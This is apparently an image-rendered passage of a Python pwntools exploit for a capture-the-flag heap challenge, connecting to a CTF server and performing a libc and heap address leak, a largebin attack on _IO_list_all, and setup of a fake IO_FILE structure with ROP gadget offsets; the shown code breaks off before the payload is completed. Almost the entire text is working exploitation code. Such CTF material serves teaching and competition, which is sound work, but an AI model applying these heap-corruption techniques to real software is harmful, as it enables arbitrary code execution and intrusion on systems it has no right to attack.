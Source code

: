   ```python
      p = remote("week-1.hgame.lwsec.cn", 32610)
  
  def add(index, size):
      # 0x4ff 0x900
      p.sendlineafter(b'>', b'1')
      p.sendlineafter(b'Index: ', str(index).encode())
      p.sendlineafter(b'Size: ', str(size).encode())
  
  def delete(index):
      p.sendlineafter(b'>', b'2')
      p.sendlineafter(b'Index: ', str(index).encode())
  
  def edit(index, cont):
      p.sendlineafter(b'>', b'3')
      p.sendlineafter(b'Index: ', str(index).encode())
      p.sendafter(b'Content: ', cont)
  
  def show(index):
      p.sendlineafter(b'>', b'4')
      p.sendlineafter(b'Index: ', str(index).encode())
  
  
  
  def main():
      libc = ELF('./libc.so.6')
  
      #  leak libc base
      add(0, 0x540)
      add(1, 0x500)
      add(2, 0x530)
      add(3, 0x500)
      delete(0) # unsorted bin
      show(0)
      system_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))-0x1a88c0
      libc_base = system_addr - libc.sym['system']
      print('libc_base>>> '+hex(libc_base))
  
      # leak heap_base
      add(4, 0x600)
      edit(0, b'a'*0x10)
      show(0)
      heap_base = u64(p.recvuntil(b'\x0a')[-7:-1].ljust(8, b'\x00')) - 0x290
      print('heap_base>>> ' + hex(heap_base))
  
      # largebin_attack
      target = libc_base + libc.sym['_IO_list_all']
      payload = p64(libc_base +  0x1f6c60 + 0x4a0)*2 + p64(target - 0x20) * 2
      edit(0, payload)
      delete(2)
      add(5, 0x600)
  
      #set fake io_file
  
      fake_io_file = heap_base + 0xcf0
      fake_vtable = libc_base + libc.sym._IO_wfile_jumps + 0x30
      fake_wide_data = fake_io_file + 0x100
      rop_chain = fake_wide_data + 0x100
      rdi_ret = libc_base + 0x23ba5
      rsi_ret = libc_base + 0x251fe
      rdx_rbx_ret = libc_base + 0x8bbb9
  
      #io_file
      # vtable += 0x30;
  ```
